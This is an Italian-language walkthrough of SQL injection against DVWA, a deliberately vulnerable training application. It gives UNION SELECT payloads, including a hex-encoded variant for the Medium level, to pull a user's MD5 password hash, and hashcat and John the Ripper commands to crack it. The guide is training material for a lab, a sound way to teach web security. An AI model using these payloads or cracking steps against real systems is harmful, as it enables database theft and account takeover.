

# **Guida: SQL Injection su DVWA (Low e Medium)**

Questa guida fornisce istruzioni passo-passo per eseguire una SQL Injection sulla piattaforma **DVWA (Damn Vulnerable Web Application)**. L'obiettivo è estrarre i dati sensibili dell'utente **Pablo** in modalità **Low** e **Medium**, e decifrare la sua password hash **MD5**.

---

## **Requisiti**

1. **DVWA Configurato**: Assicurati che la piattaforma DVWA sia correttamente installata e configurata.
2. **Accesso a un Browser o Terminale** per inviare richieste SQL Injection.
3. **Livelli di Sicurezza** configurati in DVWA:
   - **Low** per la prima parte.
   - **Medium** per la seconda parte.

---

## **Parte 1: SQL Injection in Modalità Low**

### **Obiettivo**
Estrarre i dati dell'utente **Pablo**, inclusa la sua password hash MD5.


### **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati dell'utente Pablo**:
   Inserisci il seguente payload nel campo **User ID**:
   ```sql
   ' UNION SELECT user, password FROM dvwa.users WHERE user='Pablo' -- 
   ```

3. **Risultati attesi**:
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`

4. **Decifra la password hash**:
   - L'hash `0d107d09f5bbe40cade3de5c71e9e9b7` corrisponde alla password `letmein`.
   - Puoi utilizzare uno strumento online come [https://crackstation.net](https://crackstation.net) per decifrare l'hash.

---

## **Parte 2: SQL Injection in Modalità Medium**

### **Obiettivo**
Superare i controlli di filtraggio e ottenere i dati di Pablo utilizzando payload in formato hexadecimal.


### **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati di Pablo**:
   Usa il seguente payload nel campo **User ID**:
   ```sql
   0x27 UNION SELECT user, password FROM dvwa.users WHERE user=0x5061626c6f -- 
   ```


   - `0x27` è il formato hexadecimal per l'apostrofo (`'`).
   - `0x5061626c6f` è il formato hexadecimal per `Pablo`.

3. **Risultati attesi**:
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`

4. **Decifra la password hash**:
   - Decifra l'hash `0d107d09f5bbe40cade3de5c71e9e9b7` utilizzando uno strumento come [Crackstation](https://crackstation.net) per ottenere la password: `letmein`.

---

## **Strumenti Utili**

1. **Siti per decifrare hash MD5**:
   - [Crackstation](https://crackstation.net)
   - [MD5 Decrypt](https://md5decrypt.net)

2. **Tool di cracking**:
   - **Hashcat**:
     ```bash
     hashcat -a 0 -m 0 hash.txt wordlist.txt
     ```
   - **John the Ripper**:
     ```bash
     john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
     ```


---

## **Conclusione**

Seguendo questa guida, abbiamo dimostrato come eseguire una SQL Injection su DVWA per estrarre i dati dell'utente **Pablo** e decifrare la sua password MD5 `letmein`. Questi test sottolineano l'importanza di proteggere le applicazioni web da vulnerabilità di SQL Injection.

Se hai bisogno di ulteriore supporto o chiarimenti, non esitare a contattarci!
